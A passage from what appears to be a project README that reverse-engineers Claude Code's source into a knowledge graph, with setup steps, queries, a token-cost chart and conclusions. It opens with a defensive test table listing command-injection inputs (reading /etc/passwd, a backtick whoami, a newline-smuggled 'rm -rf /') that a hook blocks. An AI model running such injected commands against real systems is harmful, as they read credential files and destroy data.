| 3 | `$(cat /etc/passwd)` | **BLOCKED** | `$` and `(` → PreToolUse hook |
| 4 | `` helper`whoami` `` | **BLOCKED** | backtick → PreToolUse hook |
| 5 | `safe-helper\nrm -rf /` (newline injection) | **BLOCKED** | `\n` → PreToolUse hook |

### Running the Pipeline

```bash
export ANTHROPIC_API_KEY=sk-ant-...

# Kick off the three-agent sequential pipeline (~2–5 min)
uv run python -m src.vuln03_crew

# Autonomous output written to:
cat security_signoff_report.md
```

> **VULN-03 Status: RESOLVED** — Both layers are required: the PreToolUse hook blocks injection before execution, and the `shell:false` spawn refactor removes the underlying attack surface entirely.

---

## 8. Visual Elements

### A. Obsidian Graph View



---

### B. God Node Network Diagram



---

### C. OOP Three-Tier Architecture Diagram



---

### D. End-to-End Data Flow Diagram



---

### E. Token Efficiency Comparison Chart

```mermaid
xychart-beta
    title "Token Cost per Query: Raw Ingestion vs Graph Navigation (thousands)"
    x-axis ["God Nodes Query", "autoDream/KAIROS Query", "bashPermissions Query"]
    y-axis "Tokens (thousands)" 0 --> 850
    bar [800, 200, 150]
    bar [6, 2, 2]
```



> **Raw ingestion (blue bars):** 800K · 200K · 150K tokens — naive full-source approach.  
> **Graph navigation (orange bars):** 6K · 2K · 2K tokens — macro→meso→micro subgraph.  
> **Average savings: 99.2%** — the graph navigation bars are nearly invisible at this scale, which is precisely the point.

---

### F. KAIROS → autoDream → Memory Sequence Diagram



---

## 9. Setup & Run Instructions

### Prerequisites

```bash
# Python 3.12 or later
python3 --version

# uv — fast Python package manager
curl -LsSf https://astral.sh/uv/install.sh | sh

# Graphify
uv tool install graphifyy

# Verify installation
graphify --version
```

### Clone & Install

```bash
git clone <repository-url>
cd graph-based-code-analyzer

# Install Python project dependencies (pinned in pyproject.toml)
uv sync
```

### Run the Full Pipeline from Scratch

```bash
# Step 1: Build the knowledge graph (pure AST — 0 tokens, 0 cost)
/graphify ./claude-code/src

# Verify outputs
ls -lh claude-code/src/graphify-out/
# graph.json        ~8 MB  — 15,906 nodes, 57,097 edges
# graph.html               — interactive community view (open in browser)
# GRAPH_REPORT.md          — full architectural analysis
# index.md                 — macro navigation hub
# hot.md                   — God Nodes + hidden subsystems
```

### Graph Queries

```bash
# BFS query — broad context, depth 2
graphify query "KAIROS autoDream undercover buddy bashSecurity"

# Shortest path between two concepts
graphify path "autoDream" "KAIROS"
# → autoDream.ts --imports--> getKairosActive()   (1 hop)

# Deep explanation of a specific node
graphify explain "autoDream"
graphify explain "yoloClassifier"
graphify explain "CompanionSprite"

# DFS query — trace a specific execution path
graphify query "speculative classifier bash approval" --dfs

# Respect the R1 token budget ceiling
graphify query "KAIROS state machine lifecycle" --budget 1500
```

### Open in Obsidian

```
1. Open Obsidian
2. File → Open Folder as Vault → select:  claude-code/src/graphify-out/
3. Press Ctrl+G to open Graph View
4. Start from index.md and follow wikilinks into communities
5. Navigate to [[hot#KAIROS]] to explore the hidden subsystems
```

### Python Test Suite

```bash
# Run unit tests
uv run pytest tests/ -v

# Check coverage (≥ 80% required)
uv run pytest tests/ --cov=src --cov-report=term-missing

# Enforce 150-line file budget (Rule R7)
find src/ -name "*.py" | xargs wc -l | awk '$1>150{print "EXCEEDS LIMIT:",$0; f=1} END{exit f}'

# Lint
uv run ruff check src/ tests/
```

### Incremental Graph Update

```bash
# Update only changed files (fast, 0 tokens)
/graphify ./claude-code/src --update

# Full rebuild (clears cache)
/graphify ./claude-code/src
```

### Project Layout

```
graph-based-code-analyzer/
├── src/                             Python analysis pipeline
│   ├── config.py                    Pydantic settings + env loading
│   ├── fetcher.py                   RepoFetcher — file collection
│   ├── parser.py                    ASTParser — Python AST → RawNode / RawEdge
│   ├── graph.py                     GraphBuilder — NetworkX + metrics
│   ├── exporter.py                  GraphExporter — Obsidian Markdown
│   ├── finops.py                    FinOpsAnalyzer — token benchmarking
│   ├── differ.py                    GraphDiffer — before/after refactor delta
│   ├── models.py                    RawNode, RawEdge, GraphMeta dataclasses
│   ├── pipeline.py                  End-to-end orchestrator
│   └── mixins/
│       ├── logging_mixin.py         Cached-property logger per class
│       ├── token_budget_mixin.py    Hard 8K ceiling + cost tracking (Rule R1)
│       └── checkpoint_mixin.py      Atomic JSON checkpoints (tmp → rename)
├── claude-code/src/                 Claude Code source (read-only target)
│   └── graphify-out/                Knowledge graph outputs
│       ├── graph.json               Raw graph — 15,906 nodes, 57,097 edges
│       ├── graph.html               Interactive browser visualisation
│       ├── index.md                 Macro navigation hub (Obsidian Vault entry)
│       ├── hot.md                   God Nodes + 5 hidden subsystems
│       └── GRAPH_REPORT.md          Full architectural analysis
├── tests/                           Unit tests (≥ 80% coverage required)
├── docs/
│   ├── refactor_report.md           God-node refactoring simulation + Mermaid diffs
│   └── finops_report.md             Token economy benchmark — detailed per-query
├── CLAUDE.md                        Agent rules R1–R8
└── pyproject.toml                   Pinned dependencies
```

---

## 10. Conclusions

Reverse-engineering Claude Code through a knowledge graph yielded three durable findings:

### Finding 1 — God Nodes as a Quantitative Technical Debt Metric

`logForDebugging()` with degree 1,177 and betweenness centrality 0.179 is not a judgment call — it is a **number**. Graph analysis makes technical debt measurable, prioritisable, and trackable across releases. Teams can now answer "which function has the highest blast radius?" in seconds, not sprint-planning discussions.

### Finding 2 — Code Archaeology Surfaces What Documentation Hides

KAIROS, autoDream, undercover, buddy, and the bash security classifier appear in no changelog, README, or API reference. Yet they are load-bearing production subsystems, tightly wired into the core. AST graph analysis discovered all five in a single zero-cost extraction pass. **The graph tells the truth; the documentation does not have to.**

### Finding 3 — 99.2% Token Reduction Enables Architectural Work at Scale

Moving from 2,000,000 tokens (raw ingestion) to 12,000 tokens (macro→meso→micro graph navigation) makes deep architectural analysis of million-line codebases economically viable and technically accurate. The "Lost in the Middle" failure mode is eliminated by design: the LLM never sees a long middle, only the relevant subgraph.

---

## References

- [Graphify (graphifyy)](https://github.com/safishamsi/graphifyy)
- [Obsidian](https://obsidian.md)
- [Claude Code — Anthropic](https://claude.ai/code)
- Liu et al., *Lost in the Middle: How Language Models Use Long Contexts*, Stanford NLP, 2023 — https://arxiv.org/abs/2307.03172
- Blondel et al., *Fast unfolding of communities in large networks* (Louvain), 2008 — https://arxiv.org/abs/0803.0476
- [NetworkX](https://networkx.org)

---

*EX04 — Reverse Engineering & Token-Efficient Agentic AI · June 2026*  
*Built with Karpathy's 4 Rules: Think Before Coding · Simplicity First · Surgical Changes · Goal-Driven Execution*
